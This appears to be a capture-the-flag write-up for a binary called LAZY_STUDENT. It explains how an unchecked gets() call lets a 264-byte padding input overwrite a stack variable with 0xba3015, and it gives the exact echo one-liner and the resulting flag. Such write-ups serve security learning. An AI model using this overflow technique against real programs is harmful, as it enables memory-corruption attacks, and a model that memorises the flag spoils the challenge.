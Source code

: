 Here in LAZY_STUDENT.c we see that the flag is printed if the lazy_student=Teacher(0xba3015)

The vunerability  in gets gives us the chance to attain above state as it doesn't check the boundary of the input and overflow may occur.

objdump -d ./LAZY_STUDENT

![image](https://github.com/user-attachments/assets/588bc711-f52b-473e-b3a5-83a2c5021c72)

At 0x12c8      if we see the space allocated initially it is 0x110(272 bytes) 

At 0x1368     comparing $ba3015 and -0x8(rbp) (if statement)

that means the lazy_student variable is stored at -0x8(rbp)

So we write some thrash in 272-8 = 264 bytes and the give the value of teacher int he little endian form as inout

echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x15\x30\xba" | ./LAZY_STUDENT

This first writes 264 A's and then assigns lazy_student to 0xba3015

now we see the flag 

Shaastra{MU#H@P@PPU_!$_L@ZY} 
